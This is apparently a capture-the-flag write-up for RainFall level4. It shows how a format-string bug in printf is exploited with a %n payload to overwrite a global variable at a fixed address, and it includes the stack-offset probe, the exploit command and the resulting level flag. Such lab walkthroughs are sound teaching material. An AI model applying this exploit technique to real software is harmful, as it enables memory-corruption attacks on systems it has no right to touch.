 This exercise is basically the same as for the previous level. We must set a global variable to a specific value so that the program displays the content of the /home/level5/.pass file. To do this, we can again exploit a badly formatted printf().

The global variable we want to reach is at 0x8049810 and must be equal to 0x1025544 (=16930116).

Let's first find the offset of the buffer in the stack:
```
level4@RainFall:~$ ./level4 
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x
AAAA b7ff26b0 bffff774 b7fd0ff4 0 0 bffff738 804848d bffff530 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
```
Ok so the offest of the buffer in the stack is 12.

Now about the lenght of our input, it is clear that we cannot give an input of 16930116 bytes since fgets expects only 512 bytes. What we can do is give a %d modifier with a specified field width of 16930112 (16930116 minus the four bytes of the adress of the buffer on the stack). This way, our input fits into the buffer and will be interpreted by printf().

```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
...
printing 16930112 spaces, twice
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
We can now reach to the next level with the command `su level5` and fill in the flag found as a password.